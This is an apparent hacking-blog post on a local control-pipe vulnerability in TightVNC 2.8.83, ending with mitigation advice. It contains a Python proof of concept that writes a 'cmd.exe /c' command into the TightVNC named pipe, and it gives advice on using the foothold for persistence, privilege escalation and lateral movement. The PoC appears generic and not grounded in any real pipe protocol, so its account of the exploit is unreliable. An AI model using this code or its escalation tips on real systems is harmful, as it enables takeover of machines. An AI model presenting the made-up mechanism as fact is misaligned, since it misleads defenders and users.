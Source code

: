 ```yaml
---
title: "TightVNC 2.8.83 - Control Pipe Manipulation"
date: 2025-06-09
categories: [Hacking Blog]  
tags: [vulnerability, exploit, offensive-security, vnc]
layout: post
image: ./assets/images/post-cover/tightvnc-exploit.png
---
```



## Summary

TightVNC 2.8.83 - Control Pipe Manipulation

## Technical Analysis

# Technical Executive Summary

The recently disclosed vulnerability in TightVNC 2.8.83, specifically identified as a Control Pipe Manipulation flaw, poses a significant risk to systems utilizing this version of the remote desktop software. This local vulnerability allows an attacker with access to the system to manipulate control pipes used by the TightVNC service. By exploiting this flaw, an adversary can potentially escalate their privileges or execute arbitrary commands within the context of the TightVNC service, which may run with elevated permissions. Given the widespread use of TightVNC in remote management and support scenarios, it is crucial for organizations to address this vulnerability promptly to prevent unauthorized access and potential system compromise.

# Code Example

Below is a Proof of Concept (PoC) demonstrating how an attacker might exploit the Control Pipe Manipulation vulnerability in TightVNC 2.8.83. This example assumes local access to the target machine.

```python
import os
import subprocess

# Path to the control pipe used by TightVNC
control_pipe_path = "\\\\.\\pipe\\TightVNCControlPipe"

# Command to execute via the control pipe
malicious_command = "cmd.exe /c echo Exploited > C:\\exploited.txt"

def exploit_control_pipe(pipe_path, command):
    try:
        # Attempt to write to the control pipe
        with open(pipe_path, 'w') as pipe:
            pipe.write(command)
            print(f"Command sent to control pipe: {command}")
    except Exception as e:
        print(f"Failed to exploit control pipe: {e}")

if __name__ == "__main__":
    if os.path.exists(control_pipe_path):
        exploit_control_pipe(control_pipe_path, malicious_command)
    else:
        print("Control pipe not found. Ensure TightVNC is running.")

```

# Offensive Security Insights

Exploitation of this vulnerability requires local access to the system where TightVNC is installed. The attacker must identify the named pipe used for control operations. Once located, the adversary can inject arbitrary commands into the control pipe, leveraging the permissions under which the TightVNC service operates. This vulnerability is particularly dangerous if TightVNC is running with administrative privileges, as it can lead to full system compromise.

Attackers can enhance their exploitation techniques by:

1. **Persistence**: Once command execution is achieved, adversaries can establish persistence by creating scheduled tasks or modifying startup scripts.
2. **Privilege Escalation**: If the service runs with elevated privileges, attackers can leverage this to escalate their access level on the system.
3. **Lateral Movement**: Exploiting this vulnerability on one system could be used as a foothold for moving laterally within a network, especially if TightVNC is used across multiple machines.

# Defensive Measures

To mitigate the risks associated with this vulnerability, organizations should implement the following defensive measures:

1. **Patch Management**: Upgrade TightVNC to the latest version where this vulnerability is addressed. Regularly apply security patches to all software components.
2. **Access Controls**: Restrict local access to systems running TightVNC. Implement least privilege principles to minimize the impact of potential exploitation.
3. **Monitoring and Logging**: Enable detailed logging of system and application events to detect any unauthorized access attempts. Monitor named pipe activity for suspicious behavior.
4. **Network Segmentation**: Isolate systems running TightVNC from critical network resources to limit the impact of a potential breach.
5. **User Education**: Train users to recognize and report suspicious activities that may indicate exploitation attempts.

By proactively addressing this vulnerability and implementing robust security practices, organizations can significantly reduce their exposure to potential attacks leveraging the TightVNC Control Pipe Manipulation flaw.

📎 [Original Source](https://www.exploit-db.com/exploits/52322)

---

_This article was written by sleep33._
